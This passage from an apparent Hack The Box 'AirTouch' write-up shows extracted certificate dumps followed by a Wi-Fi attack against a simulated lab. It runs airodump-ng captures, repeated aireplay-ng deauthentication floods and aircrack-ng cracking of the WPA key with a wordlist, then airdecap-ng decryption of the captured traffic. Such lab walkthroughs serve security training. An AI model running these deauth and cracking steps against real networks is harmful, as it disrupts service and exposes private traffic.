MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:aa:3f:d2 to c8:8a:9a:6f:f9:d2 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:aa:3f:d2-c8:8a:9a:6f:f9:d2.cert.AfYS.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:aa:3f:d2 to 28:6c:07:12:ee:a1 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:aa:3f:d2-28:6c:07:12:ee:a1.cert.3zHR.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


All certs saved in the /tmp/certs/ directory
```

| Username |
| -------- |
| r4ulcl   |

### Capturing the Pre-Shared Key (PSK)

However when we tried to crack a potential `Pre-Shared Key (PSK)` there was none. To move on we started testing on interface `wlan2`.

```shell
root@AirTouch-Consultant:~# airmon-ng start wlan2
Your kernel has module support but you don't have modprobe installed.
It is highly recommended to install modprobe (typically from kmod).
Your kernel has module support but you don't have modinfo installed.
It is highly recommended to install modinfo (typically from kmod).
Warning: driver detection without modinfo may yield inaccurate results.


PHY     Interface       Driver          Chipset

phy0    wlan0mon        mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy1    wlan1           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy2    wlan2           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211

                (mac80211 monitor mode vif enabled for [phy2]wlan2 on [phy2]wlan2mon)
                (mac80211 station mode vif disabled for [phy2]wlan2)
phy3    wlan3           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy4    wlan4           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy5    wlan5           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy6    wlan6           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
```

This time we used `aireplay-ng` to send `Deauth Packages` to the `Access Point` (`F0:9F:C2:A3:F1:A7`) to `deauthenticate` him from his connection to the `Access Point` and to `catch` a potential `PSK` when he tries to reconnect to it on `Channel 6` while we are still `capturing` the `Authentication` using `airodump-ng`.

```shell
root@AirTouch-Consultant:~# airodump-ng wlan2mon -w wifi/scanc6 -c 6 --wps
20:31:13  Created capture file "wifi/scanc6-03.cap".

 CH  6 ][ Elapsed: 3 mins ][ 2026-01-17 20:41 ][ WPA handshake: F0:9F:C2:A3:F1:A7     
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID                                                                                
 
 F0:9F:C2:A3:F1:A7  -28 100     2017       80    0   6   54        CCMP   PSK         AirTouch-Internet                                                                    
 96:42:82:EF:D8:D9  -28 100     2017        0    0   6   54        CCMP   PSK         WIFI-JOHN                                                                            
 2E:26:AC:DD:9B:A9  -28 100     2017        0    0   1   54        TKIP   PSK         vodafoneFB6N                                                                         
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes    
 
 (not associated)   C8:8A:9A:6F:F9:D2  -29    0 - 1      0       18         AccessLink,AirTouch-Office                                                                     
 (not associated)   28:6C:07:12:EE:A1  -29    0 - 1      0       12         AirTouch-Office                                                                                
 (not associated)   28:6C:07:12:EE:F3  -29    0 - 1      0        8         AirTouch-Office                                                                                
 F0:9F:C2:A3:F1:A7  28:6C:07:FE:A3:22  -29   48 - 9      0      123  EAPOL  AirTouch-Internet                                                                              
Quitting...
```

```shell
root@AirTouch-Consultant:~# aireplay-ng -0 6 -a F0:9F:C2:A3:F1:A7 wlan2mon            
20:40:07  Waiting for beacon frame (BSSID: F0:9F:C2:A3:F1:A7) on channel 6             
NB: this attack is more effective when targeting                                       
a connected wireless client (-c <client's mac>).                                       
20:40:07  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:08  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:08  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:09  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:09  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:10  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:10  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:11 
 Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:11  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:12  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
root@AirTouch-Consultant:~# aireplay-ng -0 6 -a F0:9F:C2:A3:F1:A7 wlan2mon            
20:40:17  Waiting for beacon frame (BSSID: F0:9F:C2:A3:F1:A7) on channel 6             
NB: this attack is more effective when targeting                                       
a connected wireless client (-c <client's mac>).                                       
20:40:17  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:18  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:18  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:19  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:19  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:19  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:20  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:20  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:21  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:21  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
root@AirTouch-Consultant:~# aireplay-ng -0 6 -a F0:9F:C2:A3:F1:A7 wlan2mon            
20:40:23  Waiting for beacon frame (BSSID: F0:9F:C2:A3:F1:A7) on channel 6             
NB: this attack is more effective when targeting                                       
a connected wireless client (-c <client's mac>).                                       
20:40:24  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:24  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:25  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:25  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:26  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:26  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:26  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:27  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:27  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:28  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
root@AirTouch-Consultant:~# aireplay-ng -0 6 -a F0:9F:C2:A3:F1:A7 wlan2mon            
20:40:34  Waiting for beacon frame (BSSID: F0:9F:C2:A3:F1:A7) on channel 6             
NB: this attack is more effective when targeting                                       
a connected wireless client (-c <client's mac>).                                       
20:40:34  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:34  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:35  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:35  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:36  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:36  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:37  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:37  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:38  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:38  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
root@AirTouch-Consultant:~# aireplay-ng -0 6 -a F0:9F:C2:A3:F1:A7 wlan2mon            
20:40:40  Waiting for beacon frame (BSSID: F0:9F:C2:A3:F1:A7) on channel 6             
NB: this attack is more effective when targeting                                       
a connected wireless client (-c <client's mac>).                                       
20:40:40  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:41  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:41  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:42  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:42  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:42  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:43  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:43  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:44  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:44  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
root@AirTouch-Consultant:~# aireplay-ng -0 6 -a F0:9F:C2:A3:F1:A7 wlan2mon            
20:40:47  Waiting for beacon frame (BSSID: F0:9F:C2:A3:F1:A7) on channel 6             
NB: this attack is more effective when targeting                                       
a connected wireless client (-c <client's mac>).                                       
20:40:47  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:48  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:48  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:49  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:49  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:50  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:50  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:50  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:51  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]           
20:40:51  Sending DeAuth (code 7) to broadcast -- BSSID: [F0:9F:C2:A3:F1:A7]
```

### Cracking the Pre-Shared Key (PSK) using Aircrack-ng

We downloaded the new `Capture File` and threw it into `aircrack-ng` once more to see if it finds any `PSK` to crack.

```shell
root@AirTouch-Consultant:~# cp wifi/scanc6-04.cap /home/consultant/
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ scp consultant@10.129.244.98:/home/consultant/scanc6-04.cap .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
consultant@10.129.244.98's password: 
scanc6-04.cap
```

And indeed we got lucky and captured a `PSK` on `BSSID 3` which `aircrack-ng` instantly cracked and retrieved us the `Password`  in `Cleartext`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ aircrack-ng -w /usr/share/wordlists/rockyou.txt scanc6-04.cap 
Reading packets, please wait...
Opening scanc6-04.cap
Resetting EAPOL Handshake decoder state.
Read 15591 packets.

   #  BSSID              ESSID                     Encryption

   1  2E:26:AC:DD:9B:A9  vodafoneFB6N              Unknown
   2  96:42:82:EF:D8:D9  WIFI-JOHN                 Unknown
   3  F0:9F:C2:A3:F1:A7  AirTouch-Internet         WPA (1 handshake)

Index number of target network ? 3

Reading packets, please wait...
Opening scanc6-04.cap
Resetting EAPOL Handshake decoder state.
Read 15591 packets.

1 potential targets

                               Aircrack-ng 1.7 

      [00:00:03] 19957/14344391 keys tested (7447.38 k/s) 

      Time left: 32 minutes, 3 seconds                           0.14%

                           KEY FOUND! [ challenge ]


      Master Key     : D1 FF 70 2D CB 11 82 EE C9 E1 89 E1 69 35 55 A0 
                       07 DC 1B 21 BE 35 8E 02 B8 75 74 49 7D CF 01 7E 

      Transient Key  : 3C 3A A9 13 30 A9 35 8A A9 78 87 1C F0 8B 8D 6D 
                       67 10 C1 44 4E 3F BD E0 5E 8C 57 8B 8F 44 45 00 
                       38 16 71 04 B7 D5 DE B9 98 2E AD F9 05 35 19 81 
                       1B 7A 16 CC 57 42 3D E0 FD D7 EB 44 7E B2 53 05 

      EAPOL HMAC     : 72 50 AA 4F C1 3E 6D E5 FB 5E 59 A0 59 05 2F 01
```

| Key       |
| --------- |
| challenge |

### Decrypting the Network Traffic

Now with the `Cleartext Password` we could use `aurdecap-ng` to `decrypt` the `traffic` of the file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ airdecap-ng -e AirTouch-Internet -p challenge scanc6-04.cap 
Total number of stations seen            1
Total number of packets read         15591
Total number of WEP data packets         0
Total number of WPA data packets        72
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets        20
